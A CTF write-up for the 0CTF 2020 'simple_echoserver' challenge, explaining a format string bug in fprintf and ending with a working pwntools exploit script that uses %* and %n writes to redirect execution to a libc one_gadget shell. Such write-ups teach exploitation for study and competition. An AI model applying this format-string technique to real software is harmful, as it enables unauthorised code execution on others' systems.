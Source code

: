 ```yaml
---
layout: "post"
title: "Writeup for Simple Echo Server 0ctf 2020"
date: 2020-7-02
exerpt: ""
---
```


We had great time playing this year's edition of 0CTF 2020. I was mostly working on the challenge **simple\_echoserver** which was a fairly simple stack based challenge, but required lot of brute forcing. Sadly , we couldn't hit the bruteforce on server. Nevertheless , here's the intended solution for the challenge.

## TL;DR OF THE CHALLENGE BINARY

We've been provided with standard *x86 64-bit Dynamically Linked* binary along with *glibc 2.27* to start with.

Here's what **checksec** has to say -

```py
CANARY    : ENABLED
FORTIFY   : disabled
NX        : ENABLED
PIE       : ENABLED
RELRO     : FULL
```

Let's reverse this now.

## REVERSING

The binary is a fairly simple one asking us for **name** and **phone number** which it stores on stack and then performs **fprintf** of name through stderr. An important thing to note is that *stderr is being directed to /dev/null* on server and hence the binary won't print out name , thereby preventing leaks.

The bug lies in the fprintf where we encounter the infamous **Format String Vulnerability**.

The function asking for Details ->

```c
 puts("For audit, please provide your name and phone number: ");
  printf("Your name: ");
  read_name((_BYTE *)a1, 256);
  printf("Your phone: ", 256LL);
  result = read_num();
  *(_QWORD *)(a1 + 256) = result;
  return result;

```

This is the function which contains our vulnerable fprintf

```c
 snprintf((char *)0x555555558060LL, 0x100uLL, "[USER] name: %s; phone: %ld\n", a1, *(_QWORD *)(a1 + 256));
  return fprintf(MEMORY[0x555555558040], (const char *)0x555555558060LL);
```

After this , the program loops and echo's whatever we give as input without any vulnerabilities.

```c
    puts("Now enjoy yourself");
    while(1)
    {
        read_name(&s1,256);
        if(!strcmp(&s1,"~."))
            break;
        printf("%s",&s1);
    }
```

## EXPLOIT IDEA AND ANALYSIS

Well , initially we planned to do File Structure overwrite by corrupting stderr's *file_no* field with **1** and calling main again would print leaks. But that method looked very cumbersome as it required lots of bruteforcing.

Hence the intended solution is to pop pyell leaklessly.

Let us notice stack at the instance of calling vulnerable printf.

```py

0000| 0x7fffffffebf8 --> 0x55555555541a (nop)
0008| 0x7fffffffec00 --> 0x0 
0016| 0x7fffffffec08 --> 0x555555558160 --> 0x6161616161 ('aaaaa') ->Input
0024| 0x7fffffffec10 --> 0x7fffffffed30 --> 0x7fffffffed50 --> 0x5555555554e0 (endbr64) ->Main's RBP
0032| 0x7fffffffec18 --> 0x555555555443 (lea    rdi,[rip+0xc5b]        # 0x5555555560a5)
0040| 0x7fffffffec20 --> 0x0 
0048| 0x7fffffffec28 --> 0x0 
0056| 0x7fffffffec30 --> 0x7fffffffed30 --> 0x7fffffffed50 --> 0x5555555554e0 (endbr64)
0064| 0x7fffffffec38 --> 0x7ffff7dcfa00 --> 0xfbad208b 
0072| 0x7fffffffec40 --> 0xd68 ('h\r')
0080| 0x7fffffffec48 --> 0x7ffff7a71148 (<_IO_file_underflow+296>:	test   rax,rax)
0088| 0x7fffffffec50 --> 0xf705fa00 
0096| 0x7fffffffec58 --> 0xffffffffffffffff 
0104| 0x7fffffffec60 --> 0x5555555550f0 (endbr64)
0112| 0x7fffffffec68 --> 0xa ('\n')
0120| 0x7fffffffec70 --> 0x7fffffffed10 --> 0x7fffffffed30 --> 0x7fffffffed50 --> 0x5555555554e0 (endbr64)
0128| 0x7fffffffec78 --> 0x5555555550f0 (endbr64)
0136| 0x7fffffffec80 --> 0x7fffffffee30 --> 0x1 
0144| 0x7fffffffec88 --> 0x0 
0152| 0x7fffffffec90 --> 0x0 
0160| 0x7fffffffec98 --> 0x555555555348 (mov    rcx,QWORD PTR [rbp-0x18])
0168| 0x7fffffffeca0 --> 0x7ffff7dcfa00 --> 0xfbad208b 
0176| 0x7fffffffeca8 --> 0x7fffffffecb3 --> 0xffee300000000000 
0184| 0x7fffffffecb0 --> 0x333231 ('123') -> Phone Number
0192| 0x7fffffffecb8 --> 0x7fffffffee30 --> 0x1 

0208| 0x7fffffffecc8 --> 0x7ffff7a723f2 (<_IO_default_uflow+50>:	cmp    eax,0xffffffff)
0216| 0x7fffffffecd0 --> 0x36 ('6')
0224| 0x7fffffffecd8 --> 0x555555558165 --> 0x0 
0232| 0x7fffffffece0 --> 0x7fffffffed10 --> 0x7fffffffed30 --> 0x7fffffffed50 --> 0x5555555554e0 (endbr64)
0240| 0x7fffffffece8 --> 0x55555555528d (mov    r12d,eax)
0248| 0x7fffffffecf0 --> 0x10055556029 



```

If we close analyse address **0x7fffffffeca8** which also contains a stack pointer **0x7fffffffecb3**, we see that we can control it with the Phone Number that we give as input , so if we give the phone number of *length* **24**  , then we can make that pointer point to a libc address.

```py
0176| 0x7fffffffeca8 --> 0x7fffffffecc8 --> 0x7ffff7a72300 (<_IO_doallocbuf>:	cmp    QWORD PTR [rdi+0x38],0x0)
0184| 0x7fffffffecb0 ('0' <repeats 24 times>) -> Phone Number of length 24
0192| 0x7fffffffecb8 ('0' <repeats 16 times>)
0200| 0x7fffffffecc0 ("00000000")
0208| 0x7fffffffecc8 --> 0x7ffff7a72300 (<_IO_doallocbuf>:	cmp    QWORD PTR [rdi+0x38],0x0)

```

Now that we have a libc address , we now corrupt it to point to one_gadget and pivot stack by corrupting rbp
to point to one_gadget to grant us shell.

After a few attempts , **0xe5863** magic address satisfies and we get shell.

But how do we write one_gadget number of bytes to that address?

We can use `%*` format string which is actually used for picking arguments from stack.

If we can pick arguments from stack , we can add them to constant numbers and get to one_gadget.
{: .notice}

So now the plan is , 

1. Corrupt rbp to point to our supposed one_gadget.
2. Find the difference between the libc address on stack and one_gadget. This is the number of bytes we need to add to our libc address which we will do with `%*`.
3. We calculate the offset and number of bytes to be added and finally use %n to store the result of addition back in the pointer we have to corrupt.


Here's the exploit script.

```py
from pwn import *
import sys

HOST = 'pwnable.org'
PORT = 12020
LIBC = ELF("./libc.so.6",checksec = False)
if(len(sys.argv)>1):
    io=remote(HOST,PORT)
    context.noptrace=True
else:
    io=process('./simple_echoserver',env = {"LD_PRELOAD" : "./libc.so.6"},stderr = open('/dev/null','w+'))

reu = lambda a : io.recvuntil(a)
sla = lambda a,b : io.sendlineafter(a,b)
sl = lambda a : io.sendline(a)
rel = lambda : io.recvline()
sa = lambda a,b : io.sendafter(a,b)
re = lambda a : io.recv(a)
s = lambda a : io.send(a)
#b*0x5555555554d0

#'%*76$d' + '%73$n')

if __name__=="__main__":
    gdb.attach(io,"""
            b fprintf
            c
            """)
    #rbp is stored at 7th offset , the libc address is stored at offset 30 and the pointer to libc address is stored at 26th offset
    sla("Your name: ", '%3c' + '%7$hhn' + '%357715c' + '%*30$c' + '%26$n')
    sla('phone: ','0'*24) #To get pointer to libc address
    sla('yourself!\n','a')
    sl('~.')
    io.interactive()
```

## CONCLUSION

The challenge has unintended solutions which deal with exploiting **vfprintf** which Ill not be looking into as for now.

Simple challenge with complex tricks , kudos to 0CTF for such a challenge.



